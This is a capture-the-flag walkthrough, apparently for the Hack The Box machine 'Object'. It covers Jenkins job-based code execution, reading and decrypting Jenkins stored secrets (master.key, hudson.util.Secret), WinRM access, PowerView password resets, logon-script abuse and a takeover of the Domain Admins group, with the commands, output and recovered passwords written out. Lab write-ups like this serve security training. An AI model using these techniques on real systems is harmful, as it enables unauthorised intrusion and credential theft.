# Object
## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn 10.129.96.147 -vv

Nmap scan report for 10.129.96.147
Host is up, received user-set (0.014s latency).
Scanned at 2026-09-25 16:32:08 BST for 66s
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack
5985/tcp open  wsman      syn-ack
8080/tcp open  http-proxy syn-ack
```

### Nmap
```python
nmap -p 80,5985,8080 -A --min-rate=2000 -sT -Pn 10.129.96.147
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 16:33 +0100
Nmap scan report for 10.129.96.147
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Mega Engines
| http-methods: 
|_  Potentially risky methods: TRACE
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http    Jetty 9.4.43.v20210629
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.43.v20210629)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1903 - 22H2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP (80)



 IIS

Also a link to a automation server?

Also a potential user `ideas`

## HTTP (8080)


It goes to `object.htb`



Jenkins install

It also looks to accept user registration



Ill register an account, and now i can find the version

## Executing malicious project

https://blog.cyberadvisors.com/technical-blog/blog/jenkins-remote-execution-via-malicious-jobs



Ill set the time to execute every minute



And ill set a simple test command first

Ill then save the job and after i minute i get the job show up in the build history



I can then view the console output



I have RCE

## Reverse shell (Fail)

However after trying several different things, i cannot get a connection back to myself



Ill enumerate the firewall rules



And after some further enumeration, it doesnt look like im going to be able to get a reverse shell due to the rules, but i can look for some credentials

## Credential hunting



Ill start looking around the config for any credentials



Ill look into admin



There is a config.xml file

```python
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>powershell -c type ../../users/admin_17207690984073220035/config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

There is a password hash and what looks like an encrypted password

The hash type is very hard to crack, so ill likely try to decrypt the password

To decrypt i need the `hudson.util.Secret` and the `master.key` from the `/secrets/` dir



Both files are there

```python
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test&gt;powershell -c type ../../secrets/master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
```

Ill grab the master key

The secret will need to be base64 encoded on output

```python
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test&gt;powershell -c [convert]::ToBase64String((type ../../secrets/hudson.util.Secret -Encoding byte)) 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

Now i have the two things i need i need to find a tool to do this

```python
cat b64secret | base64 -d | tee hudson.util.secret
```

Ill decode this and put it into a file so its valid

Ill also make a config.xml file since it only takes a file

Now i can decrpyt them

https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py

```python
python3 decrypt.py master.key hudson.util.secret config.xml 
/home/kali/htb/object/decrypt.py:124: SyntaxWarning: "\{" is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\{"? A raw string is also an option.
  secrets += re.findall(secret_title + '>\{?(.*?)\}?</' + secret_title, data)
c1cdfun_d2434
```

Found a password `c1cdfun_d2434`

## Access over evil-winrm

```python
evil-winrm-py -i 10.129.62.43 -u oliver -p 'c1cdfun_d2434'                             
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '10.129.62.43:5985' as 'oliver'
evil-winrm-py PS C:\Users\oliver\Documents>
```

i can authenticate over winrm

```python
evil-winrm-py PS C:\Users\oliver\Desktop> netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       908
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       908
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       3968
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2860
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       488
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1080
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1616
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       644
  TCP    0.0.0.0:49684          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       2976
  TCP    0.0.0.0:49902          0.0.0.0:0              LISTENING       3052
```

All the ports are open internally

But first step here is to use sharphound to collect bloodhound data

## Bloodhound enumeration



There is a clear path to domain admin

## Compromising `smith`

Ill import powerview into the session

```python
evil-winrm-py PS C:\Users\oliver\Desktop> . .\powerview.ps1
evil-winrm-py PS C:\Users\oliver\Desktop> $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
evil-winrm-py PS C:\Users\oliver\Desktop> Set-DomainUserPassword -Identity 'smith' -AccountPassword $NewPassword
```

Ill change the users password

```python
evil-winrm-py -i 10.129.62.43 -u smith -p 'Password123!' 
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '10.129.62.43:5985' as 'smith'
evil-winrm-py PS C:\Users\smith\Documents>
```

I can now authenticate as this user to WINRM

## Compromising `maria` using logon script

Ive applied an SPN but the hash wont crack and i dont think PKINIT is supported so i cant do shadow credentials

I can also try abusing things like logon scripts

```python
evil-winrm-py PS C:\ProgramData> echo "dir C:\Users\maria\Desktop\ > C:\ProgramData\desktop.txt" > desktop.ps1
```

Ill make a file that takes whats in her desktop and and saves it to a file

```python
evil-winrm-py PS C:\programdata> Set-DomainObject maria -Set @{'scriptpath'='C:\\ProgramData\\desktop.ps1'} -Verbose
```

Then ill set my script as her logon script that should hopefully run

```python


evil-winrm-py PS C:\ProgramData> type desktop.txt


    Directory: C:\Users\maria\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/26/2021   8:13 AM           6144 Engines.xls                                                           


evil-winrm-py PS C:\ProgramData>
```

There is a spreadsheet there

```python
evil-winrm-py PS C:\ProgramData> echo "cp C:\Users\maria\Desktop\Engines.xls C:\ProgramData" > desktop.ps1
```

Then ill just change the contents of the script to move the file

```python
evil-winrm-py PS C:\ProgramData> dir


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
d---s-       10/21/2021   3:13 AM                Microsoft                                                              
d-----       10/21/2021  12:05 AM                regid.1991-06.com.microsoft                                            
d-----        9/15/2018  12:19 AM                SoftwareDistribution                                                   
d-----        4/10/2020   5:48 AM                ssh                                                                    
d-----        4/10/2020  10:49 AM                USOPrivate                                                             
d-----        4/10/2020  10:49 AM                USOShared                                                              
d-----        8/25/2021   2:57 AM                VMware                                                                 
-a----        9/25/2026  11:34 AM            110 desktop.ps1                                                            
-a----        9/25/2026  11:34 AM            830 desktop.txt                                                            
-a----       10/26/2021   8:13 AM           6144 Engines.xls                                                            
-a----        9/25/2026  11:10 AM         770279 powerview.ps1                                                          


evil-winrm-py PS C:\ProgramData>
```

I now have the spreadsheet

```python
evil-winrm-py PS C:\ProgramData> download Engines.xls /home/kali/htb/object/
Downloading C:\ProgramData\Engines.xls: 64.0kB [00:00, 992MB/s]                                              
[+] File downloaded successfully and saved as: /home/kali/htb/object/Engines.xls
evil-winrm-py PS C:\ProgramData>
```

Ill then download this to my machine



I have found some passwords

```python
d34gb8@
0de_434_d545
W3llcr4ft3d_4cls
```

```python
evil-winrm-py -i 10.129.62.43 -u maria -p 'W3llcr4ft3d_4cls'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '10.129.62.43:5985' as 'maria'
evil-winrm-py PS C:\Users\maria\Documents>
```

I now have access as this user

## Domain Admin

```python
evil-winrm-py PS C:\Users\maria\Desktop> upload powerview.ps1 .
Uploading /home/kali/htb/object/powerview.ps1: 768kB [00:01, 458kB/s]                                        
[+] File uploaded successfully as: C:\Users\maria\Desktop\powerview.ps1
evil-winrm-py PS C:\Users\maria\Desktop> . .\powerview.ps1
evil-winrm-py PS C:\Users\maria\Desktop> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
evil-winrm-py PS C:\Users\maria\Desktop> Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "maria"
evil-winrm-py PS C:\Users\maria\Desktop>
```

Ill upload powerview once again, then import it

And afterwards i can take ownership and grant full control over the group

```python
evil-winrm-py PS C:\Users\maria\Desktop> Add-DomainGroupMember "Domain Admins" -Members "maria"
```

Then ill just add `maria` to the group

```python
evil-winrm-py -i 10.129.62.43 -u maria -p 'W3llcr4ft3d_4cls'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '10.129.62.43:5985' as 'maria'
evil-winrm-py PS C:\Users\maria\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\maria\Documents>
```

Domain Admin

```python
evil-winrm-py PS C:\Users\maria\Documents> cd ../../Administrator/Desktop
